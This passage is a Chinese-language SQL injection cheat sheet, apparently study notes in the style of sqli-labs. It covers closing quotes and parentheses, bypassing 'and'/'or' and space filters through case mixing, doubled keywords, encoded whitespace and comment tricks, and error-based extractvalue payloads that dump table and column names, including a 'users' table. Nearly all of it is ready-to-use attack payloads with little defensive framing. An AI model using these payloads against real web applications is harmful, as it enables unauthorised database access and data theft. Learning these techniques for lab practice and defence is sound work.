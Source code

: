 **注意:**数字型不用考虑闭合符



手动多加闭合符号,把后面的源代码的注释符号手动闭合

例如:

以`''`为闭合符号,注入:

`?id=-1' union select 1,2,database() '`

在两个单引号之间可以注入查询语句



- `''`闭合只需在后面增加一个单引号即可
- `""`闭合只需在注入语句后面增加一个双引号
- `('')`闭合需要多加一个`or ('1')=('1`

- `("")`闭合需要多加一个`or ("1")=("1`



## and和or过滤绕过

1.使用大小写绕过,例如:

`?id=1' anD 1=1 --+`

2.复写过滤字符

`?id=1' anandd 1=1 --+`\

3.用`&&`取代and,用`||`取代or

`?id=1' && 1=1 --+`

`>id=1' %26%26 1=1 --+`



## 空格绕过

**注释绕过:**`\**\`代替`" "`

**URL编码绕过:**`%20`  `%A0`  `%0A`  `%09`  `%0B`  `%0C`  `%0D`

**使用报错注入:**

`?id=0'||extractvalue(1,concat('~',(database())))||'`

多用括号代替空格;

查询表名

`?id=0'||extractvalue(1,concat('~',(select(group_concat(table_name))from (infoorrmation_schema.tables)where(table_schema=database()))))||'`

查询列名

`?id=0'||extractvalue(1,concat('~',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database())anandd(table_name='users'))))||'`
